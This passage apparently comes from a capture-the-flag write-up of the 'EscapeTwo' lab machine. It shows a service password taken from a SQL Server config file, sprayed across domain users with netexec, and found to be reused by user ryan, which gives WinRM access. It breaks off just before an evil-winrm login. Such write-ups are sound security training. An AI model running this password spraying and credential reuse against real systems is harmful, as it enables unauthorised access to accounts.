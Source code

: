 ```
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
PS C:\sql2019\expressadv_enu> 

```

We see our previously used credential in `SAPWD`, there appears to be more credentials in the `SQLSVCPASSWORD` field. We can spray this password among the list of users that we had previously enumerated:

```
┌──(kali㉿kali)-[~/Documents/escape2]
└─$ netexec smb 10.10.11.51 -u users.txt -p 'WqSZAF6CysDQbGb3' --continue-on-success
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)                                                                                                                   
SMB         10.10.11.51     445    DC01             [-] sequel.htb\Administrator:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\Guest:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\krbtgt:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\michael:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\oscar:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [+] sequel.htb\sql_svc:WqSZAF6CysDQbGb3 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\rose:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\ca_svc:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE
```

The password works on `sql_svc` as expected, however it appears re-used for the user `ryan` as well. Since Ryan is a member of the Remote Management Use group, we can access his account directly via `WinRM`:

```
┌──(kali㉿kali)-[~/Documents/escape2]
└─$ netexec winrm 10.10.11.51 -u ryan -p 'WqSZAF6CysDQbGb3'              
WINRM       10.10.11.51     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.10.11.51     5985   DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 (Pwn3d!)
```

Using evil-winrm to authenticate:
